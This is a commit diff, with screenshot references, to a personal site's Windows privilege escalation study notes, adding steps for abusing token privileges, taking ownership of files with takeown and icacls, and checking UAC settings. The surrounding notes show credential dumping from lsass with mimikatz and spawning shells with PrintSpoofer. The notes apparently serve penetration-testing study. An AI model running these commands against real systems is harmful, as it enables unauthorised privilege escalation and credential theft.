

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/WindowsPrivilegeEscalation.md, in a window 1280 px wide and 1400 px high, scrolled down 5800 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 6774 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
updated  windows privesc

```diff
--- a/markdown/WindowsPrivilegeEscalation.md
+++ b/markdown/WindowsPrivilegeEscalation.md
@@ -231,6 +233,9 @@
 **Abusing Privileges to Execute Code as Privileged Users**
 - Can either exploit applications, the kernel, or abuse privileges we have
 - `whoami /priv`
+	- This will return the specific privileges our user has, in either an enabled or disabled state
+	- Disabled just means we need to enable it before using the relevant command
+		- We can enable all privileges using [this powershell script](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/)
 - Privilege Abuse:
 	- If we have `SeImpersonatePrivilege`, `SeBackupPrivilege`, `SeAssignPrimaryToken`, `SeLoadDriver`, `SeTakeOwnershipPrivilege` or `SeDebugPrivilege`, we can sometimes perform operations in the security context of another user
 		- With the `SeBackupPrivilege` and `SeRestorePrivilege`, we can read arbitrary files with robocopy: `robocopy /b C:\<path to file> .\<filename>`
@@ -249,6 +254,10 @@
 			- Then, run `mimikatz` (run log so output is in txt) and run `sekurlsa::minidump lsass.dmp`
 		- With `SeTakeOwnershipPrivilege`
 			- Outlined here: https://academy.hackthebox.com/module/67/section/642
+			- We can essentially take ownership of any file, folder, or registry key
+			- Abused with `takeown /f '{path_to_object}'`
+				- This gives us ownership, but we might still not have the proper ACLs, so we need to give them to ourself
+				- `icacls '{path_to_object}' /grant {our_user}:F`
 	- Named pipes:
 		- Allow unrelated processes to share data between each other
 		- If we can coerce a a privileged process into connecting to a controlled named pipe, we can capture the authentication and use `SeImpersonatePrivilege` to impersonate the user account and perform operations in their security context
@@ -272,3 +281,10 @@
 		- Can be used when we have a user with `SeImpersonatePrivilege`
 		- `wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe`
 		- `.\PrintSpoofer64.exe -i -c powershell.exe`
+
+**Bypassing UAC**
+- Windows User Account Control can be bypassed using many different techniques
+- Check if it's running with `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA`
+	- Check level with `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin` (5 being the highest level)
+- The bypasses/escalations we can do depend on our Windows version number, which we can get with `[environment]::OSVersion.Version`
+- The [UACME](https://github.com/hfiref0x/UACME) project maintains a list of bypasses per Windows version number
```
Also changed, not shown: other parts of markdown/WindowsPrivilegeEscalation.md (+3 -1 lines), markdown/ADInformation.md (+2 -0 lines).
